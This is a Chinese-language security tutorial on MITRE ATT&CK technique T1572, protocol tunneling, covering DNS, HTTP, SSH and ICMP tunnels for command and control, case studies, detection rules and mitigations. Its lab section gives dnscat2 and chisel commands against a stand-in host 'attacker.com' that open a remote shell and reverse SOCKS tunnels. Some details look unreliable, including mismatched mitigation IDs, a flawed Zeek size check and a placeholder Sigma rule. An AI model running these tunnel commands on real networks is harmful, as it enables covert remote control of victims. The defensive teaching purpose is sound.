

# 协议隧道 (T1572)

## 一句话通俗理解

就像在公共水管里偷偷接一根私管——攻击者把C2流量"伪装"成合法的DNS、HTTP或SSH流量，藏在正常的网络服务中传输。

## 30秒速查卡

| 维度 | 你需要知道的 |
|------|-------------|
| 这是什么？ | 攻击者把C2指令打包进DNS、HTTP、SSH等合法协议中传输，就像把密信藏在牛奶盒里送出去——外层看着正常，内层全是机密 |
| 为什么危险？ | 隧道利用的是网络运维"必须允许"的协议（DNS、HTTP、SSH），防御者几乎无法完全阻止。DNS隧道特别难以检测——每个DNS查询看起来都很正常，但组合起来就形成了隐蔽的C2通道 |
| 谁需要关心？ | 网络安全工程师、SOC分析师、威胁狩猎团队、DNS管理员 |
| 你的第一步防御 | 部署DNS隧道检测系统，监控异常TXT记录大小（>500字节）、子域名高熵值（>4.0）、单小时DNS查询频率异常（>60次） |
| 如果只做一件事 | 对DNS出口流量实施安全过滤，限制TXT记录查询的目标域名范围，部署DNS安全网关 |

## 难度等级

- ⭐⭐⭐ 高级（需要深入技术知识）

## 前置知识检查

**读这个文件需要什么？**

- [ ] 网络协议基础（TCP/IP/DNS/HTTP）
- [ ] C2通信模式
- [ ] 加密通信基本原理

## 技术描述

协议隧道（Protocol Tunneling）是 MITRE ATT&CK 框架中命令与控制战术下的一种高级技术，编号为 T1572。

**通俗解释：**

**过渡段：** 不要误以为C2只是'恶意软件发心跳包'——现代C2基础设施堪比小型互联网公司。攻击者使用CDN隐藏真实服务器、用Domain Fronting伪装流量目的地、借助合法云服务（如GitHub Issues、Slack API）作为通信通道。攻击者的C2流量与正常流量混杂在一起，传统IoC检测几乎无效。
协议隧道是将一种协议封装在另一种网络协议中传输的技术。攻击者把C2控制数据"打包"进完全合法的协议流量中。比如把C2指令编码成DNS查询请求，或者通过SSH隧道转发所有后续C2流量。因为外层流量看起来完全正常，防御者很难区分"真正的DNS查询"和"藏了C2数据的DNS查询"。

**技术原理：**
协议隧道利用OSI模型的协议分层特性：
1. **隧道协议**（外层）：正常、允许通过的协议（DNS/HTTP/SSH）
2. **被封装协议**（内层）：实际传输的C2指令和数据
3. **封装过程**：C2数据经过编码/加密后放入外层协议的数据字段

**常见隧道类型：**
- **DNS隧道**：C2数据编码在DNS查询/响应中（最流行）
- **HTTP隧道**：C2数据编码在HTTP头/请求体中
- **SSH隧道**：通过SSH连接转发任意TCP流量
- **ICMP隧道**：C2数据编码在ICMP数据字段中

**用途与影响：**
协议隧道是APT组织的核心武器之一。因为隧道利用的是网络运维"必须允许"的协议（企业必须能查DNS才能上网），防御者几乎无法完全阻止。DNS隧道特别难以检测——每个DNS查询看起来都很正常，但N多查询串在一起就形成了C2通道。

## 子技术列表

**该技术没有子技术。**

## 攻击流程

### 典型攻击流程

```
植入隧道客户端 --> 构建隧道协议包 --> 穿透防火墙 --> 建立C2通道
```



**步骤详解：**

1. **植入隧道客户端**
   - 通俗描述：在被黑电脑上安装隧道软件
   - 技术细节：隧道工具通常为单文件，无安装过程
   - 常用工具：dnscat2、chisel、plink

2. **构建隧道协议包**
   - 通俗描述：将C2指令编码到协议数据段
   - 技术细节：数据编码方式（Base64、Hex等），将C2数据分段封装到外层协议的数据字段中
   - 常用工具：dnscat2、iodine

3. **穿透防火墙**
   - 通俗描述：外层协议（DNS/HTTP/SSH）是防火墙必须放行的
   - 技术细节：DNS使用UDP 53端口（企业必须能解析DNS才能上网），HTTP使用80/443端口
   - 常用工具：chisel（HTTP隧道）、plink（SSH隧道）

4. **建立C2通道**
   - 通俗描述：隧道建立后，攻击者可以通过它下发任意指令
   - 技术细节：C2服务器从隧道协议包中解封装出原始指令，受害者执行后将结果同样封装后回传
   - 常用工具：Cobalt Strike over DNS隧道、Sliver over HTTP隧道

## 真实案例

### 案例1：DNSPionage — DNS隧道C2（2023-2024年）

- **时间**: 2023-2024年
- **目标**: 全球航空、酒店、金融行业
- **攻击组织**: DNSPionage
- **手法**: DNSPionage 使用 DNS 隧道作为主要C2通道。恶意软件定期向攻击者控制的域名发送TXT记录类型的DNS查询——C2指令编码在TXT记录响应中返回。隧道使用了 Base32 和自定义编码，分片传输以防止单个DNS查询体积过大。DNS 查询频率模拟正常业务系统的DNS活动（每5-10分钟一次查询）。
- **影响**: 多个行业组织数据长期被窃取
- **参考链接**: [MITRE ATT&CK - DNSPionage](https://attack.mitre.org/software/S1060/)

### 案例2：ChromeLoader — DNS/HTTP双隧道（2022-2023年）

- **时间**: 2022-2023年
- **目标**: 全球浏览器用户
- **攻击组织**: ChromeLoader
- **手法**: ChromeLoader 使用 DNS 隧道作为初始C2通道，在确认被感染系统有价值后切换到 HTTP 隧道。DNS 隧道阶段通过TXT记录获取C2指令；切换到HTTP隧道后，通过自定义HTTP请求头传递C2数据。双隧道设计实现了"先隐蔽后高效"的平衡。
- **影响**: 超过50000台计算机被感染
- **参考链接**: [Unit 42 - ChromeLoader (2023)](https://unit42.paloaltonetworks.com/chromeloader-malware/)

### 案例3：Simda — 多层隧道技术（2017-2024年）

- **时间**: 2017-2024年
- **目标**: 全球Windows用户
- **攻击组织**: Simda Botnet
- **手法**: Simda 使用 DNS 隧道作为"存活探测"通道，通过周期性的DNS TXT查询确认受害系统在线。同时使用 SSH 隧道作为数据传输通道——如果 DNS 通道指示有指令等待，Simda 通过 SSH 隧道发起独立的加密连接下载指令和数据。Simda 的 C2 域名使用 DGA 算法生成，每日更换。
- **影响**: 大规模的僵尸网络
- **参考链接**: [Recorded Future - Simda Botnet](https://www.recordedfuture.com/simda-botnet)

### 案例4：Goffee — DQuic + BindSycler 复合隧道（2024-2025年）

- **时间**: 2024-2025年
- **目标**: 俄罗斯组织
- **攻击组织**: Goffee
- **手法**: Goffee 使用多种隧道技术。DQuic 建立基于 QUIC 协议（HTTP/3）的隧道——QUIC 基于 UDP，很多传统防火墙不检查。BindSycler 建立 SSH 隧道——通过 SSH 远程端口转发，将内部服务的流量通过加密通道引出目标网络。Goffee 还利用多种第三方服务（Slack、Telegram、Cloudflare Workers）作为隧道中继。
- **影响**: 俄罗斯军工企业被入侵
- **参考链接**: [PT Security - Goffee Group (2025)](https://global.ptsecurity.com/en/research/pt-esc-threat-intelligence/fortune-telling-on-goffee-grounds/)

## 红队视角

> ⚠️ **免责声明**：以下内容仅用于合法的安全测试、渗透测试和教育目的。未经授权对他人系统进行测试是违法行为。

### 实战技巧

1. **DNS隧道频率控制**
   DNS查询频率设置为5-10分钟一次，模拟正常DNS活动。使用多级域名增加编码容量。

2. **协议选择策略**
   根据目标环境选择隧道协议。如果使用Microsoft DNS，选择DNS隧道；如果使用OpenSSH，选择SSH隧道。

### 常用工具

| 工具名称 | 用途 | 平台 | 链接 |
|----------|------|------|------|
| dnscat2 | DNS隧道 C2 | 跨平台 | https://github.com/iagox86/dnscat2 |
| chisel | HTTP/SSH隧道 | Go | https://github.com/jpillora/chisel |
| iodine | DNS隧道 | Linux | https://github.com/yarrick/iodine |
| plink | SSH隧道 | Windows | PuTTY工具包 |

### 注意事项

- DNS隧道数据拆包/组包逻辑复杂
- 隧道协议会引入额外延迟

## 蓝队视角

### 检测要点

1. **DNS查询异常**
   - 日志来源：DNS服务器日志
   - 关注字段：TXT记录响应大小、子域名熵值、查询频率
   - 异常特征：TXT记录响应大于500字节、子域名包含高熵随机字符串（熵值>4.0）、单小时内DNS查询超过60次

2. **SSH隧道检测**
   - 日志来源：防火墙日志、SSH服务器日志
   - 关注字段：SSH连接源/目标IP、端口号、连接持续时间
   - 异常特征：非SSH标准端口（22）上的SSH连接、SSH连接持续时间异常长（数小时甚至数天）、从内网服务器向外部IP发起的SSH连接

3. **ICMP隧道检测**
   - 日志来源：网络流量捕获
   - 关注字段：ICMP包大小、频率、ICMP ID字段
   - 异常特征：ICMP请求包大小超过正常Ping值（>100字节）、ICMP数据字段包含非随机填充的固定模式

### 监控建议

- 部署DNS隧道检测系统（如DNS Security Gateway），监控TXT记录大小和查询频率
- 对所有出站SSH连接实施审批机制，特别是从服务器发起的SSH连接
- 配置NetFlow/IPFIX流量分析，检测协议比例异常（如DNS流量占比突然飙升）
- 建立DNS查询基线，对偏离基线的查询行为实施告警

## 避坑指南

SOC常见误区：只检测已知恶意域名和IP。

## 检测建议

### 网络层检测

**检测方法：** 分析 DNS 查询的异常模式。

**示例（Zeek脚本逻辑）：**
```zeek
# DNS隧道检测逻辑（Zeek脚本）
event dns_end(c: connection, msg: dns_msg)
{
    # 检测1：TXT记录响应大于500字节
    if ( |msg$answers| > 500 )
    {
        NOTICE([$note=DNS_Tunnel_Alert,
                $msg=fmt("疑似DNS隧道：TXT记录异常大 (%d 字节)", |msg$answers|)]);
    }

    # 检测2：子域名熵值大于4.0（随机字符串特征）
    if ( calc_subdomain_entropy(msg$query) > 4.0 )
    {
        NOTICE([$note=DNS_Tunnel_Alert,
                $msg="疑似DNS隧道：子域名包含高熵随机字符串"]);
    }

    # 检测3：单小时内DNS查询超过60次
    if ( c$dns$query_count > 60 )
    {
        NOTICE([$note=DNS_Tunnel_Alert,
                $msg=fmt("疑似DNS隧道：DNS查询频率异常 (%d 次/小时)", c$dns$query_count)]);
    }
}
```

### Sigma规则示例

**Sigma规则示例：**

**用人话说：**C2检测关注通信行为特征而非IP黑名单——固定间隔心跳、非常规DNS查询、小数据包频繁发送比内容分析更有效。

**用人话说：**C2检测关注通信行为特征而非IP黑名单——固定间隔心跳包、非常规DNS查询、小数据包频繁发送比内容分析更有效。
```yaml
title: DNS隧道检测（异常TXT记录）
status: experimental
description: 检测DNS TXT记录查询的异常大小和频率，可能指示DNS隧道C2通信
logsource:
    category: network
    product: zeek
detection:
    selection:
        dns_qtype: "TXT"
        dns_rcode: "NOERROR"
    condition: selection and (txt_record_size > 500 or dns_query_count > 60 within 1h)
level: high
tags:
    - attack.t1572
    - attack.command_and_control
```


### 应用层检测

**Sigma规则示例：**

**用人话说：**在实际环境中，需要结合上下文判断异常行为。建议针对本技术的特征指标设置告警阈值，并关联多个数据源进行交叉验证。


yaml
title: Detected Suspicious Activity - T1572
status: experimental
description: Detects potential T1572 related suspicious behavior
logsource:
  category: process_creation
  product: windows
detection:
  selection:
    EventID: 4688
  condition: selection
level: medium
tags:
  - attack.T1572


## 缓解措施

### 优先级1：关键措施

**措施名称：** DNS隧道检测与防护

**具体实施步骤：**
1. 部署DNS安全网关（如Cisco Umbrella、Cloudflare Gateway），对DNS查询进行深度检测
2. 限制TXT记录查询的目标域名范围，阻止向未知域名的TXT记录查询
3. 配置DNS日志审计，对TXT记录响应大小>500字节或单小时DNS查询>60次的行为实施告警

**配置示例：**
```bash
# DNS防火墙规则示例：限制出站DNS查询
# 仅允许查询已知合法的DNS服务器
iptables -A OUTPUT -p udp --dport 53 -d 8.8.8.8 -j ACCEPT
iptables -A OUTPUT -p udp --dport 53 -d 1.1.1.1 -j ACCEPT
iptables -A OUTPUT -p udp --dport 53 -j LOG --log-prefix "BLOCKED_DNS: "
iptables -A OUTPUT -p udp --dport 53 -j DROP
```

### 优先级2：重要措施

**措施名称：** SSH出站连接管控

**具体实施步骤：**
1. 仅允许从指定的管理跳板机发起出站SSH连接
2. 对服务器发起的SSH连接实施审批和审计
3. 部署SSH honeypot检测扫描行为

### 优先级3：建议措施

**措施名称：** ICMP流量检测

**具体实施步骤：**
1. 在网络出口限制ICMP数据包大小（正常Ping < 100字节）
2. 监控ICMP流量的频率和模式
3. 对非标准ICMP行为实施告警

### MITRE ATT&CK 缓解措施映射

| 缓解措施ID | 缓解措施名称 | 适用性 | 说明 |
|------------|-------------|--------|------|
| M0938 | DNS过滤 | 适用 | 部署DNS安全网关，过滤异常DNS查询 |
| M0937 | 网络入侵检测 | 适用 | 部署IDS/IPS检测隧道协议特征 |
| M0930 | 网络分段 | 适用 | 将DNS服务器与内部网络隔离 |
| M0927 | 流量分析 | 适用 | 部署NetFlow/IPFIX分析异常流量模式 |

## 动手实验

> ⚠️ **重要提示**：所有实验必须在隔离的实验室环境中进行，禁止对未授权的真实系统进行测试。

### 实验1：搭建 DNS 隧道（高级）

**实验目标：** 使用 dnscat2 建立 DNS 隧道。

**实验步骤：**
1. 配置 dnscat2 服务端：`ruby dnscat2.rb --dns "domain=attacker.com" --secret=test123`
2. 在受害系统执行客户端：`dnscat2-v0.07-client-win32.exe --dns "server=attacker.com" --secret=test123`
3. 通过 DNS 隧道执行命令：`session -i 1` 进入交互shell
4. 使用 Wireshark 捕获并分析 DNS 隧道流量，观察TXT记录中的编码数据

**预期结果：** 通过DNS隧道成功建立C2通道，可远程执行命令

**学习要点：** 理解DNS隧道的建立过程和流量特征

### 实验2：搭建 HTTP 隧道（中级）

**实验目标：** 使用 chisel 建立 HTTP 隧道。

**实验步骤：**
1. 在攻击者服务器上启动 chisel server：`chisel server --port 8080 --reverse`
2. 在受害系统上连接 chisel client：`chisel client attacker.com:8080 R:socks`
3. 通过建立的 SOCKS5 隧道访问内部网络
4. 观察 HTTP 隧道流量在 Wireshark 中的表现

**预期结果：** 通过 HTTP 隧道成功转发 TCP 流量

**学习要点：** 理解 HTTP 隧道如何绕过防火墙限制

## 术语解释

| 术语 | 英文原名 | 通俗解释 |
|------|----------|----------|
| 隧道 | Tunnel | 将一种协议封装到另一种协议中的传输方式 |
| DNS隧道 | DNS Tunnel | 利用DNS协议传输非DNS数据 |
| 外层/内层 | Outer/Inner | 用于封装的外层协议和被封装的内层数据 |

## 参考资料

### 📚 官方文档（深入了解）

- [MITRE ATT&CK - T1572](https://attack.mitre.org/techniques/T1572/)

### 📰 安全报告（真实攻击）

- [Unit 42 - ChromeLoader (2023)](https://unit42.paloaltonetworks.com/chromeloader-malware/)
- [PT Security - Goffee (2025)](https://global.ptsecurity.com/en/research/pt-esc-threat-intelligence/fortune-telling-on-goffee-grounds/)
